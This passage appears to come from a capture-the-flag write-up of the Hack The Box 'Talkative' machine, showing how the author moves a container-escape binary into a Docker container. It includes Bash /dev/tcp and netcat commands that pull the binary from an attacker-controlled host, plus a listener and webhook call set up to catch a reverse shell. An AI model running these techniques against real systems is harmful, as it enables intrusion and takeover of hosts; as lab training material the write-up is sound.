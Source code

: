 But... How to transfer it...

After poking around, I found that the Docker container has `perl` installed:

```shell
which perl
/usr/bin/perl
```

Hmm, maybe we can use `perl` to transfer files?

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:51:04(HKT)]
└> python3 -m http.server 80        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
perl -e 'use File::Fetch;my $url = "http://10.10.14.6/shocker";my $ff = File::Fetch->new(uri => $url);my $file = $ff->fetch() or die $ff->error;'
Can't locate File/Fetch.pm in @INC (you may need to install the File::Fetch module) (@INC contains: /etc/perl /usr/local/lib/x86_64-linux-gnu/perl/5.28.1 /usr/local/share/perl/5.28.1 /usr/lib/x86_64-linux-gnu/perl5/5.28 /usr/share/perl5 /usr/lib/x86_64-linux-gnu/perl/5.28 /usr/share/perl/5.28 /usr/local/lib/site_perl /usr/lib/x86_64-linux-gnu/perl-base) at -e line 1.
BEGIN failed--compilation aborted at -e line 1.
```

Nope. It requests `File::Fetch` module, and we can't install any modules because of offline machine.

**After reading writeup from [0xdf](https://0xdf.gitlab.io/2022/08/27/htb-talkative.html#shell-as-root-on-talkative), I learned that we can transfer files using a file descriptor (fd) and socket via Bash:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:00:45(HKT)]
└> cat shocker | nc -lnvp 1337
listening on [any] 1337 ...
```

```shell
exec 3<>/dev/tcp/10.10.14.6/1337
cat <&3 > /tmp/shocker
^C
```

By doing so, the Docker container will connect the our netcat listener's socket, and write the raw bytes of `shocker` binary to file descriptor 3. Then, redirect the output of file descriptor 3 to `/tmp/shocker`.

> Note: You'll need to exit (Ctrl + C) the reverse shell, because there's no end to the socket.

**Get back a reverse shell:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:01:46(HKT)]
└> nc -lnvp 4443
listening on [any] 4443 ...
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|19:01:49(HKT)]
└> curl http://talkative.htb:3000/hooks/yrGtgcuoABYtBq5nc/9XPMCbtQotENyDwtogtujo89EvX7n7aQRaRa4y4roaFcKwJR
{"success":false}
```
